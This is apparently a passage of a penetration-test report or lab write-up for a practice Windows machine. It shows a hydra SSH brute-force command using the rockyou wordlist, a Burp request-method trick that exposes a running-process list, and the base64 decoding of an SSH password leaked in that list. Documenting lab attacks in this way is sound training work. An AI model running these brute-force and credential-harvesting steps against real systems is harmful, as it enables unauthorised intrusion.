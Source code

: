 ### SSH
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt  ssh://10.11.12.13
```

### HTTP
```bash
http://192.168.222.99:8089
# change URL to match correct IP address
```

Burp Intruder > Action > Change request method
```bash
firefox http://192.168.222.99:33333/list-running-procs

# output
name        : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\windows\system32\ws80.ps1

...snipped...

name        : cmd.exe
commandline : cmd.exe C:\windows\system32\DevTasks.exe --deploy C:\work\dev.yaml --user ariah -p 
              "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" --server nickel-dev --protocol ssh

name        : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\windows\system32\ws8089.ps1

name        : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\windows\system32\ws33333.ps1

...snipped...

name        : FileZilla Server.exe
commandline : "C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe"

name        : sshd.exe
commandline : "C:\Program Files\OpenSSH\OpenSSH-Win64\sshd.exe"
```

## Gaining Access
The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems. During this penetration test, Victor was able to successfully gain access to 10 out of the 50 systems.

### Password Guessing  
```bash
echo "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" | base64 -d

# output
NowiseSloopTheory139
```
